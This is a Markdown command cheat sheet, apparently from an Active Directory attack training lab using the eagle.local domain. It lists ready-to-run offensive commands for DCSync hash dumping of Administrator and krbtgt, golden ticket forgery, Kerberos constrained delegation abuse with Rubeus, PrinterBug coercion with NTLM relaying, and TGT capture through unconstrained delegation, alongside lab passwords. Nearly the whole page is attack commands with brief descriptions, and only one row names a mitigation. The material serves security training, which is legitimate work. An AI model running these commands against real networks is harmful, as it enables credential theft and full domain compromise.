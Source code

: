 | Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `runas /user:eagle\rocky cmd.exe`                            | Start a new instance of `cmd.exe` as the user `eagle\rocky`.
| `mimikatz.exe`                                               | Tool used to implement the DCsync attack |
| `lsadump::dcsync /domain:eagle.local /user:Administrator`    | Command used in `mimikatz` to DCSync and dump the `Administrator` password hash |


# Golden Ticket

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `lsadump::dcsync /domain:eagle.local /user:krbtgt`           | Command used in `mimikatz` to DCSync and dump the `krbtgt` password hash |
| `Get-DomainSID`                                              | Cmdlet from `PowerView` used to obtain the SID value of the domain. |
| `golden /domain:eagle.local /sid:<domain sid> /rc4:<rc4 hash> /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt` | Command used in `mimikatz` to forge a golden ticket for the `Administrator` account and pass the ticket to the current session |
| `klist`                                                      | Command line utility in Windows to display the contents of the Kerberos ticket cache. |



# Kerberos Constrained Delegation

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-NetUser -TrustedToAuth`                                 | Cmdlet used to enumerate user accounts that are trusted for delegation in the domain |
| `.\Rubeus.exe hash /password:Slavi123`                       | Converts the plaintext password `Slavi123` to its NTLM hash equivalent|
| `.\Rubeus.exe s4u /user:webservice /rc4:<hash> /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt` | Using Rubeus to request a ticket for the `Administrator` account, by way of the `webservice` user who is trusted for delegation |
| `Enter-PSSession dc1`                                        | Used to enter a new powershell remote session on the `dc1` computer |


# Print Spooler & NTLM Relaying

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support`   | Used to forward any connections to DC2 and attempt to perform DCsync attack |
| `python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123` | Used to trigger the PrinterBug |
| `RegisterSpoolerRemoteRpcEndPoint`                           | Registry key that can be disabled to prevent the PrinterBug |


# Coercing Attacks & Unconstrained Delegation

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-NetComputer -Unconstrained \| select samaccountname`       | PowerView command used to idenfity systems configred for Unconstrained Delegation. |
| `.\Rubeus.exe monitor /interval:1`                           | Used to monitor new logons and extract TGTs. |
| `Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local` | Used to perform a coercing attack towards DC1, forcing it to connect to WS001.
| `mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator` | Uses `Mimikatz` to perform a `dcsync` attack from a Windows-based host. |
